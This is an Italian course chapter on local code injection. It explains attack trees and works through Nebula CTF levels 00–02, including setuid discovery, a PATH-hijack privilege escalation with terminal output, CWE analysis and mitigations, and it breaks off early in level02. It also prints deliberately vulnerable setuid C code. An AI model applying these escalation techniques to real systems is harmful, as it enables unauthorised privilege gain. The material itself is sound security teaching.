\chapter{Iniezione locale}
A partire da questo capitolo studieremo in
profondità alcune tipologie di vulnerabilità. L'indagine avrà una forte connotazione pratica: avremo a disposizione una macchina virtuale su
cui fare prove, in piena autonomia e libertà.

Il modo non corretto di agire prevede
l'esecuzione delle azioni seguenti:
\begin{itemize}
    \item Provare comandi a casaccio, senza avere idea di
cosa si stia facendo
    \item Copiare soluzioni messe a punto da altri, senza
avere idea di cosa si stia facendo
    \item Utilizzare strumenti automatici di attacco, senza
avere idea del loro funzionamento 
\end{itemize}

Il modo corretto di agire invece prevede la
piena consapevolezza delle proprie azioni:
\begin{itemize}
    \item Conoscere tutti i dettagli dell'ambiente che si
sta studiando
    \item Identificare tutti i modi possibili (plausibili ed
improbabili) di condurre un attacco
    \item Provare l'attacco sui sistemi su cui si ha il
permesso di operare
    \item Capire nel dettaglio modalità e conseguenze
dell'attacco
    \item Capire come mitigare l'attacco 
\end{itemize}

\section{Albero di attacco}
E' uno strumento utile per la conduzione
ragionata di attività di attacco. Rappresenta una vista gerarchica dei possibili
attacchi ad un sistema. Ogni nodo dell'albero è un'azione. Il nodo radice è l'azione finale dell'attacco. Ciascun nodo foglia è una azione iniziale
dell'attacco. Ciascun nodo intermedio rappresenta un'azione
preliminare per poter svolgere l'azione
rappresentata dal nodo padre.

Supponiamo di voler aprire una cassaforte. Il nodo radice dell'albero rappresenta proprio
l'obiettivo dell'attacco. La cassaforte può essere aperta se almeno una
delle azioni rappresentate nei nodi foglia ha
successo. Le azioni intermedie hanno bisogno, a loro
volta, del successo di almeno un'altra azione
preliminare. Alcune azioni necessitano l'esecuzione di più
azioni preliminari: si modellano con un AND e un arco. Un possibile attacco è un OR di percorsi
(incrocianti su un nodo AND) da nodi foglia al
nodo radice.

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.1.png}
\end{figure}
\FloatBarrier

Una volta definito, l'albero di attacco può
essere arricchito con opportune etichette sui
nodi:
\begin{itemize}
    \item Fattibilità dell'azione (Possibile, Impossibile)
    \item Costo dell'azione
    \item Probabilità di successo
\end{itemize}
Aggregando le etichette nel percorso da una
foglia alla radice, è possibile stimare l'attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.2.png}
\end{figure}
\FloatBarrier

\section{La macchina virtuale Nebula}
La macchina virtuale Nebula contiene esercizi
di sicurezza, organizzati come sfide (challenge). Ciascun esercizio corrisponde a un livello, per
un totale di 20 livelli. Ciascun livello dichiara un obiettivo non banale che
l'utente deve cercare di ottenere con ogni mezzo
possibile. I livelli dovrebbero essere eseguiti in sequenza. Disponibile al link \href{http://exploit.education/nebula/ }{http://exploit.education/nebula/ }. Per installarla si scarica la ISO \href{ http://exploit.education/downloads/}{exploit-exercises-nebula-5.iso} e si importa in VirtualBox, creando una nuova macchina virtuale.

Gli account a disposizione sono di due tipi:
\begin{itemize}
    \item Giocatori: un utente che intende partecipare alla sfida
(simulando il ruolo dell'attaccante) si autentica
con le credenziali seguenti:
\begin{itemize}
    \item Username: levelN (N=00, 01,…,19)
    \item Password: levelN (N=00, 01,…,19)
\end{itemize}
\item Vittime: gli account flag00,…,flag19 simulano una
vittima e contengono vulnerabilità di vario tipo
\end{itemize}
C'è anche un account che simula un
amministratore di sistema (Username: nebula, Password: nebula). L'elevazione dei privilegi a root può essere
effettuata manualmente tramite il comando \texttt{sudo}. L'utente \texttt{levelN} dopo l'autenticazione usa le informazioni contenute nella directory \texttt{/home/flagN} per conseguire uno specifico obiettivo, che può essere l'esecuzione di un programma con privilegi elevati, ottenimento di informazioni sensibili, ecc.

\section{Nebula Level 00}
\textit{"This level requires you to find a Set User ID
program that will run as the flag00 account.
 You could also find this by carefully
looking in top level directories in / for
suspicious looking directories." }

\vspace{5mm}

Per individuare tutti i file con il bit SETUID acceso possiamo usare il comando \texttt{find} con l'opzione \texttt{-perm} (per i permessi), e per evitare di visualizzare i messaggi di errore (permission denied) redirezioniamo gli errori sullo standard err:
\begin{center}
    \texttt{find / -perm /u+s 2>/dev/null}
\end{center}
Tra i vari risultati della ricerca notiamo il file \texttt{/bin/.../flag00}
Con \texttt{ls -la} visualizziamo i metadati del file individuato: è di proprietà di \texttt{flag00} e ha il bit SETUID acceso:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}[escapechar=\%]
level00@nebula:/bin/...$ ls -la
total 8
drwxr-xr-x 2 root   root      29 2011-11-20 21:22 .
drwxr-xr-x 3 root   root    2728 2012-08-18 02:50 ..
-rwsr-x--- 1 flag00 level00 7358 2011-11-20 21:22 %\colorbox{Bittersweet}{flag00}%
\end{lstlisting}

\end{mdframed}
Se mandiamo in esecuzione il file ci apparirà:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}[escapechar=\%]
level00@nebula:/bin/...$ ./flag00
Congrats, now run getflag to get your flag!
\end{lstlisting}

\end{mdframed}

\section{Nebula Level 01}
\textit{"There is a vulnerability in the below program
that allows arbitrary programs to be executed,
can you find it?"}

\vspace{5mm}

Il programma in questione si chiama \texttt{level1.c}
e il suo eseguibile ha il seguente percorso:
\texttt{/home/flag01/flag01}. Lo vediamo di seguito:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{level1.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
   gid_t gid;
   uid_t uid;
   gid = getegid();
   uid = geteuid();
   
   setresgid(gid, gid, gid);
   setresuid(uid, uid, uid);
   
   system("/usr/bin/env echo and now what?");
}
\end{minted}
\end{mdframed}
L'obiettivo della sfida è l'esecuzione del programma \texttt{/bin/getflag} con i privilegi dell'utente \texttt{flag01}. L'obiettivo è visto come una bandierina da acciuffare per primi in un gioco a squadre. Queste sfide vengono spesso chiamate con il
termine Capture the Flag (CTF).

Proviamo a costruire l'albero di attacco del sistema considerato:
\begin{enumerate}
    \item Iniziamo impostando il nodo radice
    \item Poi studiamo il sistema in profondità
    \item In seguito, aggiorniamo l'albero di attacco
    \item Se esiste un percorso fattibile da una foglia alla
radice, STOP. Altrimenti vai al passo 2
\end{enumerate}
Come prima strategia (naive) eseguiamo il login come utente \texttt{flag01} e proviamo ad eseguire \texttt{/bin/getflag}:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.3.png}
\end{figure}
\FloatBarrier

La password dell'account \texttt{flag01} si potrebbe chiedere al legittimo proprietario (creatore della macchina virtuale Nebula), ma che sfida sarebbe? Per cui la richiesta legittima della password non è una strada percorribile. È possibile rompere la password dell'account \texttt{flag01}? Se la password è scelta bene è un compito difficile; si deduce che la rottura della password non è una strada percorribile. Con alta probabilità la strategia scelta non porterà a nessun risultato, per cui bisogna cercare altre vie per catturare la bandierina. In particolare l'utente \texttt{level01} può accedere solamente alle directory \texttt{/home/level01} e \texttt{/home/flag01}. La prima directory non sembra contenere materiale interessante, mentre la seconda contiene file di configurazione di bash è un eseguibile \texttt{flag01}. Digitando \texttt{ls -la /home/flag01/flag01} otteniamo:
\begin{center}
    \texttt{-rwsr-x--- 1 flag01 level01}
\end{center}
Quindi il file \texttt{flag01} è di proprietà dell'utente \texttt{flag01} ed è eseguibile dagli utenti del gruppo \texttt{level01}. Inoltre è SETUID. Il file \texttt{flag01} è eseguibile e permette di ottenere i privilegi dell'utente \texttt{flag01}. L'idea è provocare indirettamente (inoculare) l'esecuzione del binario \texttt{/bin/getflag} sfruttando il binario \texttt{/home/flag01/flag01}. In questo modo \texttt{/bin/getflag} è eseguito come utente \texttt{flag01} e si vince la sfida. Aggiorniamo l'albero d'attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.4.png}
\end{figure}
\FloatBarrier

Autenticarsi come \texttt{level01} è facilissimo (abbiamo la password); eseguire il comando \texttt{/home/flag01/flag01} è facilissimo (abbiamo i permessi). L'ostacolo da superare è quello di trovare un modo di inoculare \texttt{/bin/getflag} in \texttt{/home/flag01/flag01}. Analizziamo il file sorgente (\texttt{level1.c}). Le operazioni svolte da questo file sono le seguenti:
\begin{itemize}
    \item Imposta tutti gli user ID al valore effettivo
(elevazione dell'utente al valore associato a \texttt{flag01}) 
    \item Imposta tutti i group ID al valore effettivo
(elevazione del gruppo al valore associato a
\texttt{level01})
    \item Esegue un comando, tramite la funzione di libreria
\texttt{system()}
\end{itemize}
La funzione di libreria \texttt{system()} esegue un comando di shell passato come argomento e restituisce -1 in caso di errore. Leggendo la sezione NOTES del manuale di \texttt{system} scopriamo una cosa interessante:

\begin{center}
    \textit{"Do not use \texttt{system()} from a program with
set-user-ID or set-group-ID privileges,
because strange values for some
environment variables might be
used to subvert system integrity."}
\end{center}

In breve non si deve mai eseguire \texttt{system()} con il SETUID bit impostato. Giocando con le variabili di ambiente si può violare la sicurezza del programma. Un'altra cosa interessante di \texttt{system()} è la seguente:

\begin{center}
    \textit{""\texttt{system() } will not, in fact, work properly from
programs with set-user-ID or set-group-ID privileges
on systems on which \texttt{/bin/sh} is \texttt{bash} )."}
\end{center}
Quindi se \texttt{/bin/sh} è \texttt{bash} allora la funzione \texttt{system()} potrebbe non funzionare correttamente. Per verificarlo invochiamo il comando \texttt{ls -l /bin/sh}. Otteniamo:
\begin{center}
    \texttt{lrwxrwlxrwx 1 root root ... /bin/sh \(\rightarrow\) /bin/bash}
\end{center}
Quindi è così. La funzione di libreria \texttt{system()} usa proprio \texttt{sh} per eseguire un comando. Questo comando è eseguito mediante un processo figlio che eredita tutti i privilegi del padre. Nel file sorgente \texttt{level1.c} la funzione \texttt{system()} esegue il comando seguente:
\begin{center}
    \texttt{/usr/bin/env echo and now what}
\end{center}
Scopriamo qualcosa di più su \texttt{env} e \texttt{echo}.

\subsubsection{Il comando \texttt{env}}
Innanzitutto vediamo cosa è \texttt{env}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
level00@nebula:/bin/...$ type -a env
usr/bin/env
level00@nebula:/bin/...$ man env
...
env name=value name2=value2 command
...
\end{lstlisting}

\end{mdframed}
Leggendo la documentazione scopriamo che si tratta di un comando di shell che se invocato da solo stampa la lista delle variabili di ambiente, altrimenti esegue il comando \texttt{command} nell'ambiente modificato ottenuto dopo aver settato le variabili ai valori specificati.

\subsubsection{Il comando \texttt{echo}}
Vediamo cos'è:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
level00@nebula:/bin/...$ type -a echo
usr/bin/echo
level00@nebula:/bin/...$ 
\end{lstlisting}
\end{mdframed}
Il comando \texttt{echo} stampa i suoi argomenti sullo standard output.

\vspace{5mm}

Allora il comando \texttt{/usr/bin/env echo and now what} esegue il comando \texttt{/usr/bin/echo} che stampa a video la stringa \texttt{and now what}. A questo punto se possiamo inoculare \texttt{/bin/getflag} al posto di \texttt{echo} abbiamo vinto la sfida. Sicuramente non possiamo modificare il comando eseguito da \texttt{system()}, poiché si tratta di una stringa costante. Possiamo provare a modificare l'ambiente di shell ereditato da \texttt{/home/flag01/flag01}. Vediamo quali variabili di ambiente influenzano l'esecuzione di un comando, e per farlo invochiamo \texttt{apropos environment}. Scorrendo i risultati scopriamo la voce seguente nella sezione 7:
\begin{center}
    \texttt{environ (7) –user environment}
\end{center}
Leggendo il manuale alla ricerca di qualche variabile di ambiente interessante scopriamo l'esistenza della variabile \texttt{PATH}, che imposta la sequenza ordinata di cartelle scandite dai programmi di sistema alla ricerca di file specificati con un percorso incompleto. L'idea è quella di modificare indirettamente la stringa eseguita da \texttt{system()}: per farlo copiamo \texttt{/bin/getflag} in una cartella temporanea e diamogli il nome \texttt{echo}:
\begin{center}
    \texttt{cp /bin/getflag /tmp/echo}
\end{center}
A questo punto alteriamo il percorso di ricerca in modo da anticipare \texttt{/tmp} a \texttt{/usr/bin}:
\begin{center}
    \texttt{PATH=/tmp:\$PATH}
\end{center}
A questo punto lanciando il programma \texttt{/home/flag01/flag01}, il comando \texttt{env} prova a caricare il file eseguibile \texttt{echo}, ma poiché \texttt{echo} non ha un percorso, \texttt{sh} usa i percorsi di ricerca per individuare il file da eseguire. In particolare individua \texttt{/tmp/echo} come primo candidato all'esecuzione, e quindi lo esegue con i privilegi dell'utente \texttt{flag01}. Ma \texttt{/tmp/echo} è \texttt{/bin/getflag}! Aggiorniamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.5.png}
\end{figure}
\FloatBarrier

Nell'albero di attacco sono colorati in rosso i nodi e gli archi che rappresentano le azioni da effettuare. Le seguenti operazioni sono eseguibili tranquillamente dall'utente \texttt{level01}:
\begin{itemize}
    \item Copia di \texttt{/bin/getflag} in \texttt{/tmp/echo}
    \item Modifica \texttt{PATH=/tmp:\$PATH}
    \item Login come utente \texttt{level01}
    \item Esecuzione di \texttt{/home/flag01/flag01}
\end{itemize}

\textbf{Ricorda}: ha senso provare i comandi al terminale solo dopo aver popolato un albero di attacco e aver individuato una serie di percorsi dai nodi foglia al nodo radice. Grazie all'albero di attacco, la procedura di verifica dell'attacco diventa banale. Di seguito vediamo la risoluzione della sfida:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
Ubuntu 11.10 ubuntu tty1

ubuntu login: level01
Password:
Last login: Thu Apr 6 17:17:50 PDT 2017 on tty1
Welcome to Ubuntu 11.10 (GNU/Linux 3.0.0-12-generic i686)

 * Documentation: https://help.ubuntu.com/
New release '12.04 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

level01@ubuntu:-$ cp /bin/getflag /tmp/echo
level01@ubuntu:-$ PATH=/tmp:$PATH
level01@ubuntu:-$ /home/flag01/flag01
You have successfully executed getflag on a target account
level01@ubuntu:-$

\end{lstlisting}

\end{mdframed}

La vulnerabilità presente in \texttt{level1.c} si
verifica solo se diverse debolezze sono
presenti e sfruttate contemporaneamente. Ma quali sono queste debolezze e che CWE ID hanno?

\subsubsection{Debolezza 1}
Il binario \texttt{/home/flag01/flag01} ha privilegi di esecuzione ingiustamente elevati. La CWE di riferimento è la \textbf{CWE-276 - Incorrect Default Permissions}.

\subsubsection{Debolezza 2}
La versione di bash utilizzata in Nebula non abbassa i propri privilegi di esecuzione. La CWE di riferimento è la \textbf{CWE-272 - Least Privilege Violation}. Di default molte shell moderne inibiscono l'elevazione dei privilegi tramite SETUID. In tal modo si evitano attacchi in grado di provocare esecuzione di codice arbitrario. Ad esempio, quando bash esegue uno script con privilegi elevati, ne abbassa i privilegi a quelli dell'utente che ha invocato la shell. Invece la versione di bash utilizzata in Nebula non abbassa i propri privilegi di esecuzione.

\subsubsection{Debolezza 3}
Manipolando una variabile di ambiente (\texttt{PATH}), si sostituisce \texttt{echo} con un comando che esegue lo stesso codice di \texttt{/bin/getflag}. La CWE di riferimento è la \textbf{CWE-426 - Untrusted Search Path}.

\subsection{Mitigazione}
La vulnerabilità è un AND di tre debolezze: per annullarla è sufficiente inibire una delle tre. Ovviamente sarebbe preferibile inibirle tutte e tre. Le prime due le può inibire solo l'amministratore di sistema, mentre la terza può essere inibita dal programmatore.

La mitigazione della prima debolezza consiste nella rimozione dei privilegi non minimi per \texttt{/home/flag01/flag01}: autentichiamoci come utente nebula e poi otteniamo una shell di root tramite il comando \texttt{sudo -i}. Spegniamo il bit SETUID sul file eseguibile \texttt{/home/flag01/flag01} tramite il comando:
\begin{center}
    \texttt{chmod u-s /home/flag01/flag01}
\end{center}
A questo punto se proviamo a eseguire \texttt{/bin/getflag} ci apparirà il classico messaggio che appare quando lo eseguiamo con un account non flag.

La seconda debolezza è più complessa da mitigare: prevede l'installazione di una diversa versione di bash che eviti il problema del mancato abbassamento dei privilegi.

La mitigazione della terza debolezza richiede l'impostazione sicura della variabile \texttt{PATH}: modifichiamo il sorgente \texttt{level1.c} in modo da impostare in maniera sicura la variabile di ambiente \texttt{PATH} prima di eseguire \texttt{system()}. Possiamo usare la funzione di libreria \texttt{putenv()}, che modifica una variabile di ambiente già impostata. Ad esempio, per modificare \texttt{PATH}, possiamo aggiungere la riga seguente prima della chiamata \texttt{system()}:
\begin{center}
    \texttt{putenv("PATH=/bin:/sbin:/usr/bin:usr/sbin");}
\end{center}
A questo punto compiliamo \texttt{level1-env.c}:
\begin{center}
    \texttt{gcc –o flag01-env level1-env.c}
\end{center}
Impostiamo i privilegi su \texttt{flag01-env}:
\begin{center}
    \texttt{chown flag01:level01 /home/flag01/flag01-env}
    
    \texttt{chmod u+s /home/flag01/flag01-env}
\end{center}
Impostiamo \texttt{PATH} ed eseguiamo \texttt{flag01-env}:
\begin{center}
    \texttt{PATH=/tmp:\$PATH}
    
    \texttt{/home/flag01/flag01-env}
\end{center}
A questo punto eseguendo il programma avremo che \texttt{/bin/getflag} non è più eseguito al posto dell'\texttt{echo} originale.

\vspace{5mm}

Nell'esercizio visto, abbiamo utilizzato la
manipolazione di una variabile di ambiente
(\texttt{PATH}) per provocare l'esecuzione di codice
arbitrario (\texttt{/bin/getflag}). Questa tecnica si chiama iniezione di codice e
consiste appunto nell'iniettare il codice da
eseguire dall'applicazione vulnerabile al posto
del codice presente. Vedremo anche altri metodi per iniettare codice
in un eseguibile.

\section{Nebula Level 02}
\textit{"There is a vulnerability in the below program
that allows arbitrary programs to be executed,
can you find it?"} Il programma in questione si chiama \texttt{level2.c}
e il suo eseguibile ha il seguente percorso:
\texttt{/home/flag02/flag02}. Vediamo il codice sorgente:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\textbf{level02.c}
\begin{minted}[baselinestretch=1.0]{c}
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
   char *buffer;
   gid_t gid;
   uid_t uid;
   
   gid = getegid();
   uid = geteuid();
   setresgid(gid, gid, gid);
   setresuid(uid, uid, uid);
   
   buffer = NULL
   asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
   printf("about to call system(\"%s\")\n", buffer);

   system(buffer);
}
\end{minted}
\end{mdframed}
L'obiettivo della sfida è l'esecuzione del
programma \texttt{/bin/getflag} con i privilegi
dell'utente \texttt{flag02}. Costruiamo l'albero di attacco:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.6.png}
\end{figure}
\FloatBarrier
 
La password dell'account \texttt{flag02} si potrebbe chiedere al legittimo proprietario (creatore della macchina virtuale Nebula), ma che sfida sarebbe? Per cui la richiesta legittima della password non è una strada percorribile. È possibile rompere la password dell'account \texttt{flag02}? Se la password è scelta bene è un compito difficile; si deduce che la rottura della password non è una strada percorribile. Con alta probabilità la strategia scelta non porterà a nessun risultato, per cui bisogna cercare altre vie per catturare la bandierina. Come si vede la situazione è la stessa di level01. Vediamo quali home directory sono a disposizione dell'utente level02: l'utente level02 può accedere solo alle directory \texttt{/home/level02} e \texttt{/home/flag02}. La prima non sembra contenere materiale interessante, mentre la seconda contiene file di configurazione di bash e un eseguibile: \texttt{/home/flag02/flag02}. Proviamo a vedere i permessi:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ls -la /home/flag02/flag02
-rwsr-x--- 1 flag02 level02
\end{lstlisting}
\end{mdframed}
Quindi il file \texttt{flag02} è di proprietà di \texttt{flag02} ed è eseguibile dagli utenti del gruppo \texttt{level02}. Inoltre è SETUID. Autentichiamoci come utente level02: (username \texttt{level02} e password \texttt{level02}). Poiché abbiamo il permesso di esecuzione, possiamo eseguire il binario:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ ./home/flag02/flag02
about to call system("/bin/echo level02 is cool")
level02 is cool
\end{lstlisting}
\end{mdframed}

Il file \texttt{/home/flag02/flag02} è
eseguibile e permette di ottenere i privilegi
dell'utente flag02, quindi l'idea è provocare l'esecuzione di \texttt{/bin/getflag}
mediante iniezione in \texttt{/home/flag02/flag02}. Conseguenza: \texttt{/bin/getflag} è eseguito come
utente flag02 (si vince la sfida!). Questa parte è uguale alla precedente, e la motivazione è che la procedura di ricerca delle vulnerabilità è sempre la stessa:
\begin{itemize}
    \item lettura approfondita
    \item aggiornamento dell'albero di attacco
    \item individuazione di un percorso di sfruttamento
\end{itemize}
Quindi procediamo come nella sfida precedente:

\begin{figure}[hbpt!]
    \centering
    
\includegraphics[width=0.8 \textwidth]{./Images/cap5/5.7.png}
\end{figure}
\FloatBarrier

